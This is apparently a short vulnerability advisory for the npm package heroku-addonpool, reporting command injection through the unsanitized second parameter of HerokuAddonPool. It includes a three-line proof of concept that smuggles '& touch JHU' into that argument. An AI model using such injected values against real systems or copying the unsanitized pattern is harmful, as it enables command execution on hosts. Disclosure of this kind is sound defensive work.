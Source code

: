 # Overview
`heroku-addonpool` is a tool that Managing Addon Pool of an App in Heroku, this package are vulnerable to Command Injection.

The second parameter of the exported function `HerokuAddonPool(id, app, opt)` can be controlled by users without any sanitization.

# Proof of Concept
```
var Root = require("heroku-addonpool");
var root = Root("sss","& touch JHU",{});
root.setup();
```